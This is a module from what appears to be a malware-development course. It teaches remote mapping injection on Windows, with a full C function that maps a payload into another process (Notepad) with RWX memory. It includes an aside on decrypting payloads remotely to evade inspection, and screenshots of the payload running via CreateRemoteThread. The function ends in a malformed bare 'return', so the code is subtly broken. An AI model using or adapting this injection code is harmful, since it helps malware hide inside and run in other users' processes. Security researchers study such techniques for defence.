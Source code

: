 # 5.1 Remote Mapping Injection

### Introduction

The previous module demonstrated a method to perform local payload execution without the need of using private memory. This module demonstrates the same technique on a remote process instead.

### Remote Mapping Injection

This section explains the WinAPIs required to perform remote mapping injection. The steps to perform remote mapping injection are listed below.

1. `CreateFileMapping` is called to create a file mapping object.
2. `MapViewOfFile` is then called to map the file mapping object into the local process address space.
3. The payload is moved to the locally allocated memory.
4. A new view of file is mapped into the remote address space of the target process, using `MapViewOfFile2`, mapping the local view of file into the remote process, and thus our copied payload.

#### MapViewOfFile2

[MapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) maps a view of a file into the address space of a specified, remote process.

```c
PVOID MapViewOfFile2(
  [in]           HANDLE  FileMappingHandle,   // Handle to the file mapping object returned by CreateFileMappingA/W
  [in]           HANDLE  ProcessHandle,       // Target process handle
  [in]           ULONG64 Offset,              // Not required - NULL
  [in, optional] PVOID   BaseAddress,         // Not required - NULL
  [in]           SIZE_T  ViewSize,            // Not required - NULL
  [in]           ULONG   AllocationType,      // Not required - NULL
  [in]           ULONG   PageProtection       // The desired page protection.
);
```

- `FileMappingHandle` - A HANDLE to a section that is to be mapped into the address space of the specified process.
    
- `ProcessHandle` - A HANDLE to a process into which the section will be mapped. The handle must have the `PROCESS_VM_OPERATION` access mask.
    
- `PageProtection` - The desired page protection.
    

### Implementation Note

Unlike local mapping injection, it's not necessary to make the locally mapped view of the file executable since the payload is not executed locally. Instead, the `MapViewOfFile` uses the `FILE_MAP_WRITE` flag in order to copy the payload. `MapViewOfFile2` will then map the same bytes to the address space of the target process.

`MapViewOfFile2` shares the file mapping handle with `MapViewOfFile`. Therefore, any modifications to the payload in the locally mapped view of the file is reflected in the remote mapped view of the file in the remote process. This is useful for real-world implementations where an encrypted payload needs to be run, as the payload can be mapped to the remote process and decrypted locally, thus decrypting the payload in the remote view of the file for execution.

### Remote Mapping Injection Function

`RemoteMapInject` is a function that performs remote mapping injection. It takes 4 arguments:

- `hProcess` - The handle to the target process.
    
- `pPayload` - The payload's base address.
    
- `sPayloadSize` - The size of the payload.
    
- `ppAddress` - A pointer to PVOID that receives the mapped memory's base address.
    

The function allocates a locally mapped readable-writable buffer and then copies the payload to it. It then uses `MapViewOfFile2` to map the local payload to a new remote buffer in the target process and finally returns the base address of the mapped memory.

```c
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

	BOOL        bSTATE            = TRUE;
	HANDLE      hFile             = NULL;
	PVOID       pMapLocalAddress  = NULL,
                pMapRemoteAddress = NULL;

    // Create a file mapping handle with RWX memory permissions
	// This does not allocate RWX view of file unless it is specified in the subsequent MapViewOfFile call  
	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
  
    // Maps the view of the payload to the memory 
	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
	if (pMapLocalAddress == NULL) {
		printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

    // Copying the payload to the mapped memory
	memcpy(pMapLocalAddress, pPayload, sPayloadSize);

	// Maps the payload to a new remote buffer in the target process
	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
	if (pMapRemoteAddress == NULL) {
		printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("\t[+] Remote Mapping Address : 0x%p \n", pMapRemoteAddress);

_EndOfFunction:
	*ppAddress = pMapRemoteAddress;
	if (hFile)
		CloseHandle(hFile);
	return 
}
```

### UnmapViewOfFile

Recall that `UnmapViewOfFile` only takes the base address of the mapped view of a file that is to be unmapped. Calling the `UnmapViewOfFile` WinAPI to unmap the locally mapped payload is prohibited when the payload is still running because the remote view of the file is a reflection of the local one. Therefore, unmapping the local file map view will cause the remote process to crash since the payload is still active.

### Demo

The target process for this demo is `Notepad.exe`.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-map-109431584-4f2ef9e2-3d8e-49ce-9998-b9070c566647.png)

  

The image below shows the locally mapped memory containing the payload. Notice that the permissions on the memory is `RW`.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-map-209431586-0863ea8b-fa83-486b-aeac-ff718f759de7.png)

  

`MapViewOfFile2` maps the same bytes to the address space of the target process, `notepad.exe`. The remotely mapped memory now contains the payload with `RWX` permissions.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-map-309431587-6d988463-f0aa-4cc2-8252-1b0d1426af2d.png)

  

Executing the payload (Using `CreateRemoteThread` for simplicity)

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/remote-map-409431570-6cd31d0b-0dee-4930-97d3-5124112c3e77.png)